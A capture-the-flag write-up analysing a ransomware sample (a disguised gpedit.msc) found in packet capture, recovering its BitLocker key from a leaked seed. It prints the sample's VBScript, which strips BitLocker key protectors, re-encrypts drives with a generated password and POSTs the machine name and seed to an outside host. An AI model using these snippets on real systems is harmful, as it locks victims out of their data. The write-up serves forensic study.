 # Writeup: Honey, I shrunk the skids

We are given a fairly small .pcap file that we open with Wireshark. Upon filtering for HTTP traffic, we find the first interesting request.

![Alt text](images/request.PNG)

It seems that a zip file was sent to the target machine. We can extract the .zip file by "following the HTTP Stream" in Wireshark and copying the raw bytes. Now, of course, we could paste these bytes into a new file using a hex editor. However, I like to promote the use of unnecessary online tools. So, I paste them into ![This Website](https://tomeko.net/online_tools/hex_to_file.php?lang=en) and download the file.

If they save the files being processed, that is what we call a "no-no" in privacy terms. Let’s hope they don’t try to open the file on a Windows machine.

The downloaded file is a zip file containing a file called gpedit.msc.

The first hint about what this file is comes when we copy it to a Windows machine and it gets deleted immediately. This file might be malware! Here’s a pro tip for people wanting an EPT-Token: Turn off your Windows Defender and run gpedit.msc. It will irrecoverably encrypt your entire system, BUT you will also get an EPT-Coin.

Upon analyzing gpedit.msc, we stumble upon this large block of URL-encoded characters that seems to be more code packed in our original script:
![Alt text](images/text_block.PNG)
By utilizing yet another online tool, [CyberChef](https://gchq.github.io/CyberChef/), we decode the characters and get another Visual Basic script!

This script is quite interesting indeed
```vbscript
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command ""$protectors = (Get-BitLockerVolume -MountPoint " & drives(i) & ").KeyProtector; if ($protectors -ne $null) { foreach ($protector in $protectors) { Remove-BitLockerKeyProtector -MountPoint " & drives(i) & " -KeyProtectorId $protector.KeyProtectorId } }""")).stdout.readall) > 0 Then
End If
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command $a=ConvertTo-SecureString " & Chr(34) & Chr(39) & strRandom & Chr(39) & Chr(34) & " -asplaintext -force;Enable-BitLocker " & drives(i) & " -s -qe -pwp -pw $a")).stdout.readall) > 0 Then
End If
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command Resume-BitLocker -MountPoint " & drives(i) & " ")).stdout.readall) > 0 Then End If
```
This part of the scripts in essence enables bitlocker encryption on some drives. The key used for the encryption seems to be "strRandom".

strRandom is defined in the following code snippet:


```vbscript
Dim strRandom
characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*-+=_;0123456789thequickbrownfoxjumpsoverthlazydog"
Dim seed
seed = CStr(usedMemory) & CStr(usedSpaceTotal) & CStr(freeSpaceTotal) & CStr(freeMemory)  & CStr(sys) & CStr(perf) & CStr(received) & CStr(sent) & CStr(Timer)
Rnd(-1)
Randomize seed
For i = 1 To 64
    
    randomNum = Int(Len(characters) * Rnd(2))
    randomChar = Mid(characters, randomNum + 1, 1)    
    strRandom = strRandom & randomChar
Next
```
Here we can see that a seed for Rnd() is generated using several characteristics of the target machine.
strRandom is then built using Rnd(). 

Since Rnd() is deterministic we could recover strRandom if we had the seed. 

As we can see in this snippet the seed is actually sent to http://192.168.77.136/updatelog

```vbscript
Set httpRequest = CreateObject("WinHttp.WinHttpRequest.5.1")
httpRequest.Open "POST", "http://192.168.77.136/updatelog", False
httpRequest.SetRequestHeader "Content-Type", "application/x-www-form-urlencoded"
httpRequest.SetRequestHeader "accept-language", "fr"
httpRequest.SetRequestHeader "user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0"
httpRequest.Option(4) = 13056
httpRequest.Option(6) = true

computerName = CreateObject("WScript.Network").ComputerName
postDataPlaintext = computerName & vbTab & seed
postDataPlaintext2 = computerName & vbTab & result
```


And lo and behold we can find that request in our .pcap file.

![Alt text](images/request_seed.PNG)

Decoding the base64 string we get "DESKTOP-59C1C3D	43906.83" where 43906.83 is our seed.


By copying and running the strRandom function ourselves and initializing the Rnd() function with the seed "43906.83" 


```vbscript
Dim strRandom
Dim characters
Dim numericSeed
Dim i
Dim randomNum
Dim fso
Dim outputFile

' Set your numeric seed directly. For example:
' numericSeed = 43906.83  ' Replace this with your actual numeric seed value
numericSeed = "43906.83"
' Randomize with the numeric seed
Rnd(-1)
Randomize numericSeed

' Define characters to choose from
characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*-+=_;0123456789thequickbrownfoxjumpsoverthlazydog"
strRandom = ""

' Generate random characters
For i = 1 To 64
    randomNum = Int(Len(characters) * Rnd(2))  ' Using Rnd to generate a random number
    strRandom = strRandom & Mid(characters, randomNum + 1, 1)  ' Build the random string
Next

' Show the result in a message box
MsgBox "The random string is: " & strRandom

' Create a FileSystemObject to write the string to a file
Set fso = CreateObject("Scripting.FileSystemObject")

' Create or overwrite the output file
Set outputFile = fso.CreateTextFile("randomString.txt", True)

' Write the random string to the file
outputFile.WriteLine strRandom
outputFile.WriteLine numericSeed

' Close the file
outputFile.Close

' Clean up
Set outputFile = Nothing
Set fso = Nothing


```


we are able to generate the following key:
"_tfeTIO$*Vy##f@GyRfDEJvRvNerHHDrE=GHr0CRFgSX3VYD4koa-LUU&OTDe;rb"

If we decrypt the volume we can access it and get our flag: EPT{it_works_the_machine_works!}



